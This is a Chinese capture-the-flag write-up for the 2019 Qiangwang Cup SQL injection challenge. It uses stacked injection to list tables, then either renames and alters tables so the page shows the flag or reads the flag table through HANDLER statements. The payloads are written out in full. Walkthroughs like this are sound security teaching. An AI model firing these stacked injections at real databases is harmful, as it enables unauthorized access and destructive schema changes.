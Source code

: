 ### [强网杯 2019]随便注


---
#sql #堆叠注入
观察一下：

![image-20241020140634113](https://gitee.com/bx33661/image/raw/master/path/image-20241020140634113.png)

![image-20241020140704891](https://gitee.com/bx33661/image/raw/master/path/image-20241020140704891.png)

```
1';show tables;#
```

![image-20241020135240141](https://gitee.com/bx33661/image/raw/master/path/image-20241020135240141.png)



我们看到有两个表，我们这时候猜测内部sql语句大概应该是：

```
SELECT id,data FROM words WHERE id='$id'
```

**show**

在过滤了 select 和 where 的情况下，还可以使用 show 来爆出数据库名，表名，和列名。

```sql
show datebases; //数据库。
show tables; //表名。
show columns from table; //字段。
```



#### 方法一：

1，rename 先把 words 表改名为其他的表名。

2，把 1919810931114514 表的名字改为 words 。

3 ，给新 words 表添加新的列名 id 。

4，将 flag 改名为 data 。

```
1'; rename table words to word1; rename table `1919810931114514` to words;alter table words add id int unsigned not Null auto_increment primary key; alter table words change flag data varchar(100);#
```

![image-20241020141705138](https://gitee.com/bx33661/image/raw/master/path/image-20241020141705138.png)



#### 方法二：

采用`handler`,这里特别需要注意的是

> 当表名是数字的话，需要反引号包括，才能查询

```
1';HANDLER `1919810931114514` OPEN;HANDLER `1919810931114514` READ FIRST;HANDLER `1919810931114514` CLOSE;#
```





https://blog.csdn.net/qq_43619533/article/details/103433643

https://blog.csdn.net/qq_44657899/article/details/103239145
